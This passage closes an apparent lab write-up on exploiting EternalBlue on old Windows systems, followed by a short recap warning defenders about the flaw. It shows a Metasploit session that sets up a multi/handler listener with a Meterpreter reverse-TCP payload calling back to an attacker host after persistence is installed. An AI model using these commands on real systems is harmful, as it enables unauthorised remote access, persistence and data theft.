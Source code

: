 Then, we can wait for the user to log in with `exploit/multi/handler`.

```plain text
msf6 post(windows/manage/persistence_exe) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => ${ATTACKBOX_IP}
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run -j
```

And we’re done! Paths from this point include jumping from the current machine to infect others and key logging to extract sensitive information. Nasty stuff.

# Recap

EternalBlue is a major vulnerability in old Windows systems. An attacker can use it to open so many pathways into a system, that essentially all your data is disclosed and at stake if your machine is vulnerable. This should come as a warning not just to guard against this specific weakness, but to be wary of the possibility of new blue holes like it appearing without warning.

🔵🕳️



